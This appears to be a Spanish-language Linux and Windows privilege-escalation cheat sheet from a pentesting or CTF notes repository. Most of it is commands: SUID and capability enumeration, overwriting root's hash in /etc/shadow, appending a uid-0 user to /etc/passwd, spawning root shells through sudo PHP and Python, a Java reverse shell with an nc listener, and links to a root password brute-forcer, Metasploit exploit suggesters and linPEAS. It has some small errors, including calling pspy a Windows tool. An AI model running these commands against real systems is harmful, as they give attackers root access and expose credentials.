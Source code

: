 Escalada de privilegios

## **HERRAMIENTAS ÚTILES**

- **GTFOBins:** Un repositorio de técnicas de escalada de privilegios y ejecución de comandos utilizando binarios de Unix.

### **Comprobar Comandos Sudo**

- sudo -l

### **Buscar Contraseñas en Archivos de Configuración**

- ls /var/www/html
- Revistar archivos php y conf

### **Crontab**

Buscar en crontab archivos que se ejecuten como root y que podamos editar:

- crontab -l
- ls /etc/cron\*

**Enumerar Variables de Entorno**

El comando env muestra todas las variables de entorno de la shell. Podría incluir información sensible, como contraseñas:


### **Enumerar Información del Sistema**

Enumerar rutas interesantes:

- ls -lsaht /opt | /tmp | /var/tmp | /var/backups | /var/mail | /dev/shm

Enumerar información del sistema para encontrar posibles vulnerabilidades:

- uname -a
- cat /etc/\*-release
- file /bin/bash

### **Permisos SUID**

Buscar archivos con permisos SUID:

- find / -perm /4000 2>/dev/null

### **Buscar Archivos con Permisos de Escritura y lectura**

Buscar archivos y directorios que tienen permisos de escritura para todos los usuarios:

- find / -not -type l -perm -o+w 2>/dev/null
- find / -not -type l -perm -o+r 2>/dev/null|grep /etc/shadow

###

### **Modificar /etc/shadow**

Si tienes permisos de escritura en /etc/shadow, puedes generar una nueva contraseña para root:

- openssl passwd -1 -salt abc password

Reemplazar la entrada de root en /etc/shadow con la nueva contraseña.

### **Crear enlace simbólico**

Creando un enlace simbólico desde nuestro directorio de trabajo al de root:

- ln -s /root rooter

Y ahora desde mi equipo intento leerla:

- curl <http://192.168.1.26:3333/jan/rooter/root.txt>

### **Capabilities**

- /usr/sbin/getcap -r / 2>/dev/null

Este comando recorrerá todos los archivos del sistema y mostrará sus capacidades, si las tienen. Se pueden explotar desde GTFObins en capabilities copiando en comando

### **Ver archivos con Nmap**

- nmap -iL \*ruta\*

### **Ver si un archivo se esta ejecutando en el script de otro archivo (Tareas programadas)**

- grep -nri “/tmp/message” / 2>dev/null

Busca de forma recursiva si en /usr hay algun script que mencione el archivo “/tmp/message”

### **Script para fuerza bruta al usuario root**

<https://github.com/d4t4s3c/suForce>

##

## **EJEMPLOS DE ESCALADA**

### **Escalada con Python**

Si tienes permisos de escritura en el script, edítalo para incluir una línea que proporcione una bash con privilegios de root.

- import os

os.system(“/bin/sh”)

Si no puedes editar el script, puedes eliminarlo y crear uno nuevo con el mismo nombre, ejemplo:

<https://romabri.github.io/Library>

###

### **Escalada con grep y cut**

Si dispones de permisos como root en grep y cut haciendo sudo -l, puedes ver archivos que sólo root puede ver

### **Escalada con Java**

Si tienes permisos de root en Java:

1. Crear un archivo revershell.java que contenga la reverse shell.
2. Ejecutarlo con java como sudo

- sudo /usr/bin/java revershell.java

1. Escuchar la conexión en la máquina local:

- nc -lvnp &lt;puerto&gt;

### **Escalada con PHP**

Si puedes ejecutar PHP como otro usuario usando sudo, ejecuta el siguiente comando para abrir una terminal con el usuario indicado.

- sudo -u chocolate /usr/bin/php -r 'system("/bin/sh");

![image](https://github.com/user-attachments/assets/29ead444-3a83-4584-ba0e-b824fe090d9e)


Si puedes ejecutar PHP como root, ejecuta el siguiente comando para conceder permisos SUID al bash. Cuando el bash se ejecute obtendrás una terminal con el usuario root

- echo '&lt;?php exec("chmod 4755 /bin/bash"); ?&gt;' > /opt/script.php

##

### **Escalada con chown**

- LFILE=/etc/passwd
- sudo chown $(id -un):$(id -gn) $LFILE
- openssl passwd hola123
- echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
- su newroot


## **AUTOMATIZAR ESCALADA EN WINDOWS**

### **PSPY64**

Es una herramienta diseñada para monitorear procesos y detectar configuraciones incorrectas que podrían permitir la escalada de privilegios en sistemas Windows.

<https://github.com/DominicBreuker/pspy>

### **LOCAL_EXPLOIT_SUGGESTER (metasploit)**

![image](https://github.com/user-attachments/assets/5deee4e3-d5bc-4d19-a563-2b4783a783a3)

Seleccionamos uno de ellos, en este caso ms16_014_wmi_recv_notif, rellenamos los campos y establecemos la sesion meterpreter con altos privilegios


También existe esta misma herramienta en github que contiene el manual de uso:

<https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

### **PRIVESC CHECK**

Existe un script en PowerShell que enumera las credenciales de otros usuarios y posibles vías de escalada de privilegios.

Clonar repositorio:

<https://github.com/itm4n/PrivescCheck.git>

Transferir el repositorio clonado a la máquina Windows vulnerada y posicionarnos dentro de la carpeta clonada. Una vez ahí ejecutar el siguiente comando:

- powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck"

![image](https://github.com/user-attachments/assets/bfd3fdb0-ad3f-4423-afe3-306b1131bbd6)

## **AUTOMATIZAR ESCALADA EN LINUX**

### **LINPEAS**

Es una herramienta que busca en el sistema configuraciones incorrectas y vulnerabilidades que pueden permitir la escalada de privilegios.

<https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS>
